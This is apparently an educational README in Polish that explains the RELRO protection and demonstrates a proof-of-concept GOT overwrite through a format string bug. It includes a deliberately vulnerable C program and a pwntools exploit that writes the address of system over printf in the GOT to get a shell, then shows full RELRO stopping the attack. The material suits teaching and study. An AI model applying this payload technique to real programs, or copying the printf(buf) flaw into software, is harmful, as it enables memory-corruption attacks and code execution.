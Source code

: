 # RERLO

### 1. Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielnej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker dostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest defaultowym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT.

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 2. Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>f 
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyję exploitu typu `format string` ,który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji %3$x.

![img_1.png](img/img_1.png)

Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą cześć adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit odpalany z włączonym relro nie daje żadnego skutku - adres got znajduję się w innym miejscu. W przypadku próby nadpisania tego miejsca następuję `SIGSEGV` - wykonanie chciało nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.

![img_6.png](img/img_6.png)

### 3. Wnioski

RERLO jest dość prostym mechanizmem obrony przed exploitacją. Chroni przed pewnymi typami ataków i nie jest to opcja, której stosowanie ma sens w przypadku, np. wykonywalnego stosu i wyłączonego ASLR.

Full RERLO jest opcja dość kosztowną i nie powinno się używać jej do aplikacji, które wymagają szybkich czasów startu. Patrial RERLO może i powinno być stosowane defaultowo, bo jest bezproblemowe wydajnościowo, a podnosi bezpieczeństwo.



